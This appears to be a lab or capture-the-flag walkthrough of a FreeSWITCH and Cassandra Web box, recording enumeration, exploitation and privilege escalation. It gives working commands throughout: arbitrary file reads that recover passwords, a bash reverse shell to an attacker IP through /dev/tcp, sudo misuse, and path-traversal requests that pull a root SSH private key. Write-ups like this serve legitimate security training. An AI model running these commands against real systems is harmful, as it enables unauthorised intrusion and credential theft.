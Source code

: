 ## Takeaway
## Metadata

- Port `8021` is running `FreeSWITCH mod_event_socket`.
	- According to `searchsploit`, `FreeSWITCH 1.10.1` is affected by `RCE`. ![[Pasted image 20240329143322.png]]
	- Looking at the exploit code, it is indeed related to `Event Socket` at port 8021. Moreover, it seems that the indication of the vulnerability is, after connection, authentication is prompted. ![[Pasted image 20240329143700.png]]
	- Running `nc 192.168.222.240 8021` indeed prompted for authentication. However, the default password provided within the exploit `ClueCon` is incorrect.![[Pasted image 20240329143952.png]]
- Port `3000` is running `Cassandra Web`. ![[Pasted image 20240329143813.png]]
	- According to `searchsploit`, `Cassandra Web 0.5.0` is affected by `Arbitrary File Read` but one can not locate the exact version number.  ![[Pasted image 20240329144139.png]]
	- After trying out the exploit, it looks like it is indeed vulnerable to `Arbitrary File Read`.![[Pasted image 20240329144321.png]]
	- A little research (https://developer.signalwire.com/freeswitch/FreeSWITCH-Explained/Modules/mod_event_socket_1048924/) seems to indicate that the configuration for `Event Socket` is at `<conf_dir>/autoload_configs/[event_socket.conf.xml]` which in out case `/etc/freeswitch/autoload_configs/event_socket.conf.xml`.
	- Run `python3 49362.py -p 3000 192.168.222.240 /etc/freeswitch/autoload_configs/event_socket.conf.xml` will reveal the actual password as `StrongClueConEight021`.![[Pasted image 20240329150053.png]]
	- Run `python3 49362.py -p 3000 192.168.222.240 /proc/self/cmdline` as the comments suggests will reveal user `cassie`'s credential as `SecondBiteTheApple330`.                                                       ![[Pasted image 20240329151046.png]]![[Pasted image 20240329151155.png]]
- Enumerate as `cassie` will identify that the user can run `cassandra-web` as `root` without password.![[Pasted image 20240329153234.png]]
# Exploitation 
## Shell as freeswitch
- Change password within exploit to `StrongClueConEight021` and run `python3 freeSWITCH_RCE.py 192.168.222.240 '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.45.189/80 0>&1"'` to obtain a reverse shell as the user `freeswitch`.
## Shell as cassie
- Within the shell of `freeswitch`, run `su cassie` and enter password `SecondBiteTheApple330` to get a session as the user `cassie`.
# PrivEsc
- Spin up `Cassandra Web` as `root`  at port `4444` with command `sudo /usr/local/bin/cassandra-web -u cassie -p SecondBiteTheApple330 -B 0.0.0.0:4444&`, which give us `Privileged Read` as `root` upon exploitation.
- Within the same shell, Run `curl http://localhost:4444/../../../../../../../../../../home/anthony/.bash_history --path-as-is` to identify that `anthony` and `root` shares the same public key.![[Pasted image 20240329154112.png]]
	- Run `curl http://localhost:4444/../../../../../../../../../../home/anthony/.ssh/id_rsa --path-as-is` to retrieve private key and run `ssh root@192.168.222.240 -i id_ras_root` at attacker machine to obtain an SSH session as `root`. 